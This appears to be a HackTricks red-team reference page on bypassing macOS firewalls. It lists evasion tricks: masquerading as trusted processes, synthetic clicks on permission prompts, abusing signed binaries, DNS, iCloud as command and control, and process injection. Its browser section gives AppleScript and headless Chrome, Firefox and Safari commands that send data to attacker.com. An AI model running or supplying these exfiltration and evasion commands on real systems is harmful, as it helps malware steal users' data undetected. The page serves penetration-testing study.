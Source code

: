 # macOS Bypassing Firewalls

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

* For example calling the malware with names of well known macOS processes like **`launchd`**&#x20;

### Synthetic Click

* If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

* Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them

```bash
lsof -i TCP -sTCP:ESTABLISHED
```

### Abusing DNS

DNS resolutions are done via **`mdnsreponder`** signed application which will probably vi allowed to contact DNS servers.

<figure><img src="../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

### Via Browser apps

* **oascript**

```applescript
tell application "Safari"
    run
    tell application "Finder" to set visible of process "Safari" to false
    make new document
    set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```

* Google Chrome

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* Firefox

```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```

* Safari

```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```

### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## References

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
